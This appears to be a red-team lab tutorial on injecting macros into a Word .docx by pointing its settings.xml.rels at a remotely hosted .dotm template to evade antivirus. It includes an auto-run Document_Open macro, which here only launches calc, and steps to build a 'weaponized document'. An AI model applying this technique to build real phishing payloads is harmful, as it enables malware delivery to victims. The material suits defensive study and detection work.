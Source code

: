 # Inject Macros from a Remote Dotm Template

This lab shows how it is possible to add a macros payload to a docx file indirectly, which has a good chance of evading some AVs/EDRs. 

This technique works in the following way:

1. A malicious macro is saved in a Word template .dotm file
2. Benign .docx file is created based on one of the default MS Word Document templates
3. Document from step 2 is saved as .docx
4. Document from step 3 is renamed to .zip
5. Document from step 4 gets unzipped
6. .\word\_rels\settings.xml.rels contains a reference to the template file. That reference gets replaced with a refernce to our malicious macro created in step 1. File can be hosted on a web server \(http\) or webdav \(smb\).
7. File gets zipped back up again and renamed to .docx
8. Done

## Weaponization

Alt+F8 to enter Dev mode where we can edit Macros, select `ThisDocument` and paste in:

{% code-tabs %}
{% code-tabs-item title="Doc3.dotm" %}
```javascript
Sub Document_Open()

Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc"

End Sub
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-18-22-19-22.png)

Create a benign .docx file based on one of the provided templates and save it as .docx:

![](../../.gitbook/assets/screenshot-from-2019-03-18-22-24-02.png)

Rename legit.docx to legit.zip:

![](../../.gitbook/assets/screenshot-from-2019-03-18-22-26-41.png)

Unzip the archive and edit `word_rels\settings.xml.rels`:

{% code-tabs %}
{% code-tabs-item title="word\_rels\\settings.xml.rels" %}
```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\mantvydas\AppData\Roaming\Microsoft\Templates\Polished%20resume,%20designed%20by%20MOO.dotx" TargetMode="External"/></Relationships>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note it has the target template specified here:

![](../../.gitbook/assets/screenshot-from-2019-03-18-22-36-30.png)

Upload the template created previously `Doc3.dot` to an SMB server \(note that the file could be hosted on a web server also!\).

Update word\_rels\settings.xml.rels to point to Doc3.dotm:

![](../../.gitbook/assets/screenshot-from-2019-03-18-22-59-07.png)

Zip all the files of `legit` archive and name it back to .docx - we now have a weaponized document:

![](../../.gitbook/assets/peek-2019-03-18-23-07.gif)

## References

{% embed url="http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html" %}



